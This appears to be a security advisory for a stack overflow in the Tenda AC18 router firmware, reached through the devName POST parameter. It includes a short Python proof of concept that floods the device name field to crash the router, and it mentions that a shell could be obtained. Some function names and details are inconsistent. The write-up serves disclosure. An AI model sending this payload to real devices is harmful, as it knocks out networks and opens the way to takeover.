

## Tenda AC18 stack overflow vulnerability

## 1. Affected version
V15.03.05.19

Firmware download website: https://www.tenda.com.cn/download/detail-2610.html


## 2. Vulnerability details

A stack overflow vulnerability exists in the formSetClientState and  sub_C6BB0 function of the Tenda AC18 V15.03.05.19 firmware.
The formSetDeviceNam function retrieves the devName parameter from a POST request and passes its value to the sub_C6BB0 function. Within the sub_C6BB0 function, the value of the devName parameter is assigned to the local variable v5.
The sub_C6BB0 function contains a statically allocated buffer v26 with a fixed size of 256 bytes. The function formats and stores the devName parameter using the statement sprintf(&v26, "%s;1", v5). However, because the devName input is fully controlled by the user, an attacker can supply a specially crafted devName value that exceeds the capacity of the v26 buffer.
This vulnerability can be exploited remotely by an unauthenticated attacker, potentially leading to a denial-of-service (DoS).


   
   

## 3 POC
```python
import requests

url = 'http://IP:port/goform/formSetDeviceName"

headers = {"Cookie": "password=You cookie"}

data = {
    'serverEn': 2,
    'devName': 'l' * 10000
}
res = requests.post(url=url, headers=headers, data=data)
print(res.text)
```
You can observe the router crashing, and ultimately, it is possible to craft an exploit to gain a shell.
